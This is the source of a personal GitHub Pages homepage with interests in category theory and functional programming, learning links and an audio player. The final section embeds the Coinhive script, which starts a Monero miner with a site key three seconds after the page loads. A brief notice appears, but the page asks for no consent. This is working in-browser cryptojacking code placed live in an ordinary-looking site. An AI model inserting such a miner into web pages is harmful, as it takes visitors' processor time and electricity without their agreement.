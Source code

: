 ```yaml
---
layout:
---
```


<!--
i apologize this site watches back
-->

<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

Welcome to the user site of github/bohadi.

I am currently most interested in effectively engineering complex computation
via application of abstract category theory and type theory by functional programming.

<!--
In particular, I am studying language, compilation, and blockchain implementations.
Other interests include AI/ML, genomics, and the design and enjoyment of games.
-->

Thanks for the visit and please feel free to look around.

<!--
(mailto:bohadi@users.noreply.github.com)
if you would like to contact me
-->

here are some learning resources i find helpful:<br>
[ctfp](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[pfpl](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
also:<br>
[toc](https://math.mit.edu/~sipser/book.html)<br>
[aosa/ghc](http://www.aosabook.org/en/ghc.html)<br>


<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

[this site, projects repo](https://github.com/bohadi)
<br><br>

some links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>

<!--
some old stories:<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

[other fiction i (did) enjoy](movies)<br>
-->

<br>
Finally, this page can mine Monero on your machine.<br>
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error. Miner stopping.';
    }
  }, 3000);

</script>
